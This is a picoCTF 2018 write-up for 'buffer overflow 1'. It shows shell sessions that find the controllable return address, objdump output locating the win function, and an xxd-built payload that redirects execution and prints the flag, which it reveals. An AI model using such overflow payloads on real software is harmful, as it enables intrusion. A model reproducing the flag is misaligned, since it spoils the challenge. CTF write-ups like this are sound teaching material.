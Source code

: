 ```yaml
---
layout: writeup
title: 'Binary Exploitation 200: buffer overflow 1'
level: 
difficulty: 
points: 
categories: []
tags: []
flag: picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault
---
```

**Challenge**  
Okay now you're cooking! This time can you overflow the buffer and
return to the flag function in this program? You can find it in
/problems/buffer-overflow-1\_2\_86cbe4de3cdc8986063c379e61f669ba on the
shell server. [Source.](writeupfiles/vuln-buff-overflow-1.c)

**Solution**  
Using an entirely manual binary search we find out which bytes we
actually control:

    hxr@pico-2018-shell-1:/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba$ ./vuln
    Please enter your string:
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaab
    Okay, time to return... Fingers Crossed... Jumping to 0x62616161
    Segmentation fault
    ...
    hxr@pico-2018-shell-1:/problems/buffer-overflow-1_2_86cbe4de3cdc8986063c379e61f669ba$ ./vuln
    Please enter your string:
    aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaadcba
    Okay, time to return... Fingers Crossed... Jumping to 0x61626364
    Segmentation fault

Ok, good. Now we have control of the return, we just need to point it to
wherever the flag is printed? I guess that's the win function

    $ objdump -x -d vuln
    ....
    
    080485cb <win>:
     80485cb:       55                      push   %ebp
     80485cc:       89 e5                   mov    %esp,%ebp
     80485ce:       83 ec 58                sub    $0x58,%esp
     80485d1:       83 ec 08                sub    $0x8,%esp
     80485d4:       68 50 87 04 08          push   $0x8048750
     80485d9:       68 52 87 04 08          push   $0x8048752
     80485de:       e8 bd fe ff ff          call   80484a0 <fopen@plt>
     80485e3:       83 c4 10                add    $0x10,%esp
     80485e6:       89 45 f4                mov    %eax,-0xc(%ebp)
     80485e9:       83 7d f4 00             cmpl   $0x0,-0xc(%ebp)
     80485ed:       75 1a                   jne    8048609 <win+0x3e>
     80485ef:       83 ec 0c                sub    $0xc,%esp
    ...

So we want to return to `0x080485cb`

First I experimented with some known characters in order to figure out
the byte  
mapping because little endian doesn't work with `xxd -r`

    $ echo -n 'ÏÖ' | xxd -e # Little endian
    00000000: 96c38fc3                             ....
    $ echo -n 'ÏÖ' | xxd    # Big endian
    00000000: c38f c396                                ....
    $ # 080485cb < our target string
    $ echo '00000000: cb85 0408' | xxd -r
    $ # And the mapping is a bunch of unprintable characters.

This needs to be prefixed with a known length of buffer so we'll just
construct something xxd is happy with:

    00000000: 61616161 61616161 61616161 61616161
    00000010: 61616161 61616161 61616161 61616161
    00000020: 61616161 61616161 61616161 cb850408

And then run this on the server:

    $ echo '00000000: 61616161 61616161 61616161 61616161
    00000010: 61616161 61616161 61616161 61616161
    00000020: 61616161 61616161 61616161 cb850408' | xxd -r | ./vuln
    Please enter your string:
    Okay, time to return... Fingers Crossed... Jumping to 0x80485cb
    picoCTF{addr3ss3s_ar3_3asy56a7b196}Segmentation fault

It works!!!

